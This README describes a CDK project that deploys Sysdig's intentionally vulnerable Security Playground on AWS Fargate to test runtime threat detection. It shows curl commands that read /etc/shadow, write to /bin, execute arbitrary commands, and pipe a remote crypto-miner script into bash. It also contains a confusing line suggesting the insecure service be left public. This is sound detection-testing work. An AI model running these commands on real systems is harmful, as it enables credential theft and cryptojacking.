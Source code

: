 # Example of ECS Fargate using the CDK that works with Sysdig Secure

This is an example of using the [CDK's ECS Patterns construct](https://docs.aws.amazon.com/cdk/api/v2/docs/aws-cdk-lib.aws_ecs_patterns-readme.html) in TypeScript in a way that will work with Sysdig's Fargate support.

I am going to add a Python example to this soon as well.

It is intended as an example to inspire you on how to change your own CDK so that Sysdig can transform/instrument it like it does with CloudFormation. It can also be useful as a way to test Fargate support within your Sysdig environment is working as it deploys [Sysdig's Security Playground](https://github.com/sysdiglabs/security-playground) to help facilitate triggering Events in Sysdig's Runtime Threat Detection feature(s).

The way that Sysdig's Fargate support works is that:
1. A sidecar container is added to each Task. 2. Then, your container is changed to mount theirs as a Volume
3. Then your entrypoint and commands are changed such that their service is run first and then it, in turns, run yours
3. Finally SYS_PTRACE is added - which Sysdig leverage in a special more efficient/peformant way to get visibility into the runtime activity of the container via a tool called pdig described in detail in this blog post - https://sysdig.com/blog/aws-fargate-runtime-security-ptrace-ld_preload/.

There are two CDK files - `bin/cdk.ts` which instatiates the stacks and `lib/cdk-stacks.ts` which is where most of the CDK code actually lives.

NOTE: This is not a supported thing from Sysdig (as Sysdig supports CloudFormation and Terraform) - but instead is an example I prepared on how to get CDK to generate the CloudFormation that, in turn, would be supported. Sysdig will help as long as your CDK generates the required/'right' CloudFormation - but it will be best effort in their helping you with CDK to get it go generate that CloudFormation as required. If you have support from AWS then should support the CDK to get you to that point.

## Usage

### Prerequisites
1. Install node.js if required (using Homebrew or the OS pacakage repository such as apt, yum or dnf etc.)
* Mac - `brew install node@18 awscli`
* Ubuntu/WSL - `sudo apt update;sudo apt install -y nodejs npm` and https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html#getting-started-install-instructions

### Install the CDK Stacks
1. First run `npm install` in this folder
2. Then prepare to deploy by editing `cdk.json`. There you can configure the following parameters:
* account - The AWS account to deploy to
* region - The AWS region to deploy to
* public_load_balancer - do you want the service to be on the Internet (NOTE: this service is highly insecure so consider leaving it public)
* sysdig_etc_shadow_healthcheck - do you want this service to be healthchecked in a way that will trigger Sysdig events (by retrievig sensitive file /etc/shadow)
* SYSDIG_ACCESS_KEY - the access key for your Sysdig instance the Orchestrator stack will use to authenticate
* SYSDIG_COLLECTOR - the address for your Sysdig backend (usually your Sysdig SaaS region) for the collector to talk to
* SYSDIG_COLLECTOR_PORT - the port of the Sysdig backend (usually your Sysdig SaaS region) for the collector to talk to
3. Run `npx cdk deploy FargateSecurityPlaygroundStack --require-approval never` which will deploy all the stacks (they depend on each other all the way up to FargateSecurityPlaygroundStack)

### How to trigger Sysdig Events once deployed

This example deploys [Sysdig's Security Playground](https://github.com/sysdiglabs/security-playground) which is a insecure Python service that will allow you to read, write and execute things within the container via curl. 

NOTE: I highly suggest not putting this service's load balancer on the Internet, and instead interacting with it within your private VPC, as it is insecure by design in order to test Sysdig's Runtime Threat Detection is working as you'd expect with CDK and Fargate.

### Reading a file

You can read a file using just the URL.

```bash
$ curl [AWS ALB ADDRESS]/etc/shadow
```

This will return the content of the /etc/shadow file.

NOTE: If you flip the sysdig_etc_shadow_healthcheck option in cdk.json then we change the ALB healthcheck to do this every 5 minutes automatically for you.

### Writing a file

You can write to a file using the URL and POSTing the content.

```bash
$ curl -X POST [AWS ALB ADDRESS]/bin/hello -d 'content=hello-world'
```

This will write to /bin/hello the hello-world string

### Executing a command

You can execute a command using the /exec endpoint and POSTing the command.

```bash
$ curl -X POST [AWS ALB ADDRESS]/exec -d 'command=ls -la'
```

This will capture and return the STDOUT of the command executed.

Here is another example launching the cgminer crypto miner:
```bash
$ curl -X POST [AWS ALB ADDRESS]/exec -d 'command=curl https://raw.githubusercontent.com/sysdiglabs/policy-editor-attack/master/run.sh | bash'
```

### Cleaning up
Just run `npx cdk destroy --all -f` to clean everything up once you're done
